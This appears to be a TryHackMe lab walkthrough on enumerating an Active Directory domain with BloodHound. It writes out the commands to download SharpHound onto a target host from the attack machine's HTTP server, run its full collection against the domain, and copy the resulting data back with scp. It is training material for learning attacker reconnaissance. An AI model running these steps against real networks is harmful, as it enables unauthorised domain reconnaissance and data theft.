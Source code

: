 # Through Bloodhound

Bloodhound runs locally on an attacker's machine. The attacker must run a "collector" like sharphound on the target 
to enumerate domain information. After the collector finishes running, it will output a series of .json files for 
import into the Bloodhound interface.

`ssh` into target machine using the credentials given:

    ssh kenneth.davies@za.tryhackme.com@thmjmp1.za.tryhackme.com

In the target machine terminal, switch to powershell:

    za\kenneth.davies@THMJMP1 C:\Users\kenneth.davies\Documents>powershell
    Windows PowerShell
    Copyright (C) Microsoft Corporation. All rights reserved.
 
Choose a directory to work from (I used `Documents`, and download the 
`SharpHound-v1.1.0.zip` from the http server on the attack machine:

    PS C:\Users\kenneth.davies\Documents> Invoke-WebRequest http://10.50.16.168/SharpHound-v1.1.0.zip -OutFile SharpHound-v1.1.0.zip
    PS C:\Users\kenneth.davies\Documents> dir
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----       10/12/2022   2:48 PM        2138953 SharpHound-v1.1.0.zip

Extract:

    PS C:\Users\kenneth.davies\Documents> Expand-Archive SharpHound-v1.1.0.zip      
    PS C:\Users\kenneth.davies\Documents> dir
    Directory: C:\Users\kenneth.davies\Documents
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----       10/12/2022   2:49 PM                SharpHound-v1.1.0
    -a----       10/12/2022   2:48 PM        2138953 SharpHound-v1.1.0.zip

Enumerate:

    PS C:\Users\kenneth.davies\Documents> cd SharpHound-v1.1.0
 
    PS C:\Users\kenneth.davies\Documents\SharpHound-v1.1.0> .\SharpHound.exe --CollectionMethods All --Domain za.tryhackme.com --ExcludeDCs  2022-10-12T14:49:52.7476245+01:00|INFORMATION|This version of SharpHound is compatible with the 4.2 Release of BloodHound
    2022-10-12T14:49:53.2159956+01:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
    ...
    2121 name to SID mappings.
     0 machine sid mappings.
     2 sid to domain mappings.
     0 global catalog mappings.
    2022-10-12T14:50:42.7872718+01:00|INFORMATION|SharpHound Enumeration Completed at 2:50 PM on 10/12/2022! Happy Graphing!

Check results:

    PS C:\Users\kenneth.davies\Documents\SharpHound-v1.1.0> dir
    Directory: C:\Users\kenneth.davies\Documents\SharpHound-v1.1.0

    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----       10/12/2022   2:50 PM         139831 20221012145038_BloodHound.zip
    ...

On the attack machine, use `ssh` to copy the bloodhound results over:

    scp kenneth.davies@za.tryhackme.com@thmjmp1.za.tryhackme.com:C:/Users/kenneth.davies/Documents/SharpHound-v1.1.0/20221012145038_BloodHound.zip .

Fire up `neo4j` and `bloodhound`:

    sudo neo4j start                     
    bloodhound &

Drop the copied over results in the bloodhound window, and play around with options.

| ![Bloodhound](../../_static/images/Screenshot from 2022-10-12 15-42-55.png)
|:--:|
| Start playing around and answer the questions. |

* Use `Search for a node...` to find specific users, groups, etc.
* Click on specific properties of an object to visualise it
* Use the Analysis tab to run built-in queries
* ...
